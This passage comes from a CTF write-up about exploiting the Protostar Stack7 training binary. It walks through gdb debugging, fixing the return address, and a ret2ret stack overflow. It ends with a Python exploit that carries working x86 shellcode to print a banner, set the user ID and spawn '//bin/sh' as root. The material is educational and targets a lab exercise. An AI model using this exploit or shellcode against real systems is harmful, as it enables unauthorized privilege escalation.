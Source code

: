 so as u see i launch `gdb` with `/opt/protostar/bin/stack7` and i break on `ret` instruction and redirect output of `~/fuzz/py` which is `/tmp/fuzz` to `stack7` stdin 
and run it
and then step to ret instruction to execute it so i check `eip` again found it hold point to `ret` instruction which is in our exploit
so untill now everything is going fine :)
but when i step this `ret` instruction again and check `eip` i found it point to bad instruction as you see in screenshot
so i check value at address `0xbffff7d0` i found it `0xbffff7d0` What ? :) i expect to find code to execute value which will be `\xcc` repaeted four times so i check what the next value to value it holds i found it `0xcccccccc` so now i get it 
remmember :
```py
print(fuzz+ebp+eip+ret+code_to_execute)
```
the ret addrress it self which is `0xbffff7d0` is added with our code_to_execute
so `esp` which is also `0xbffff7d0` now point to `0xbffff7d0`+code_to_execute
but we need  to execute only our code so we will add `4` to this address to step this address which is `4 byte` size and make it point at our code to execute
so let,s update new return address `0xbffff7d0` to `0xbffff7d4`
modify our exploit at : `~/fuzz.py`
```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp="TTTT"
eip="\x44\x85\x04\x08" # 0x08048544 point to opcode `c3` which represent `ret` instruction in x86/x86_64 arch
ret="\xd4\xf7\xff\xbf" # 0xbffff7d4 return to our shellcode in stack and execute it
code_to_execute="\xcc"*4 
print(fuzz+ebp+eip+ret+code_to_execute)
```

then let,s test our exploit again :)

![Stack7 exploit debug](/assets/img/protostar/stack7-exploit-success.png)

Yeees !!! our code executed successfully and it triggered a breakpoint trap XD

<img alt="gif" src="https://media1.tenor.com/m/PD2HwZpAkXMAAAAd/live-free-or-die-hard-die-hard4.gif" width="450rem" height="350rem"/>


so, as we used too .. it,s time to get our dirty epic root shell ;)

so let,s update our exploit
so i will use my previous custom shellcode that i used in [Stack5 Writeup](/posts/protostar_stack5) which will print `[+] Pwned By Sysc4ll3r` then run `seteuid(geteuid(),geteuid())` and `execve("//bin/sh")`

```py
fuzz="AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS"
ebp="TTTT"
eip="\x44\x85\x04\x08" # 0x08048544 point to opcode `c3` which represent `ret` instruction in x86/x86_64 arch
ret="\xd4\xf7\xff\xbf" # 0xbffff7d4 return to our shellcode in stack and execute it
code_to_execute=(
"\x68\x33\x72\x20\x23\x68\x63\x34\x6c\x6c\x68\x20\x53\x79\x73\x68\x64\x20\x42\x79"
"\x68\x50\x77\x6e\x65\x68\x5b\x2b\x5d\x20\x31\xdb\x31\xc9\x31\xd2\x6a\x04\x58\xb3"
"\x01\x89\xe1\xb2\x18\xcd\x80\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd"
"\x80\x31\xc0\x31\xc9\x31\xd2\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3"
"\x6a\x0b\x58\xcd\x80"
)
print(fuzz+ebp+eip+ret+code_to_execute)
```